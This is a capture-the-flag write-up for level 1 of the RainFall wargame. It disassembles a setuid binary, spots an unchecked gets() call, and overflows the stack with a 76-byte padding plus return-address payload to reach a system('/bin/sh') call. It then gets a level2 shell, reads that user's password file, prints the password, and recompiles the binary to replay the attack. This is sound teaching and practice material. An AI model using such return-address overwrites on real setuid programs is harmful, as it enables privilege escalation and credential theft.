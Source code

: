 # Level 1

## Vulnerability

Buffer overflow exploit<br/>
[Owasp example](https://owasp.org/www-community/attacks/Buffer_overflow_attack)

## Context

```
level1@RainFall:~$ ls -l
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
Note: the owner of this binary is level2. 

## Solution

Let's see what the binary does. 
```
level1@RainFall:~$ ./level1
[...]
```
It looks like it's waiting on input from the stdin. Let's take a look in gdb. 
```
level1@RainFall:~$ gdb ./level1
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>: 	and    $0xfffffff0,%esp
   0x08048486 <+6>: 	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb)
```
We can see here the binary calls the C function ```gets```, which copies a string from stdin to a buffer. 
Let's see if we can cause a buffer overflow. A buffer overflow allows us to change the flow of execution of the program.
```
level1@RainFall:~$ python -c 'print "a"*76' | ./level1
Illegal instruction (core dumped)
```
So we've effectively triggered a stack overflow here.
The next step is to look for where we can regain control

```objdump``` will give us a deeper look at the assembly instructions in this binary file. 
We use the ```-M intel``` flag for Intel syntax. 
```
level1@RainFall:~$  objdump -d -M intel level1
[...]
08048444 <run>:
[...]
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
```
Here we find a run command and ```system()``` call that we can exploit. 
If we run system("/bin/sh"), [it will launch a shell](https://stackoverflow.com/questions/43294227/hijacking-system-bin-sh-to-run-arbitrary-commands) that will run with the same priveleges as the calling program. 


```
level1@RainFall:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
So the password for level2 is ```53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77```

## Recreate Exploited Binary

As user level2, create level1_source.c, then compile in /tmp/.
```
level2@RainFall:~$ cd /tmp
level2@RainFall:/tmp$ gcc level1_source.c -fno-stack-protector -o level1_source
```
Edit permissions including suid, then move the binary to home directory.
```
level2@RainFall:/tmp$ chmod u+s level1_source
level2@RainFall:/tmp$ chmod +wx ~; mv level1_source ~
```
Exit back to user level1, then run the binary.
```
level2@RainFall:~$ exit
exit
level1@RainFall:~$ (python -c 'print "a"*76 + "\x64\x84\x04\x08"'; cat) | /home/user/level2/level1_source
```
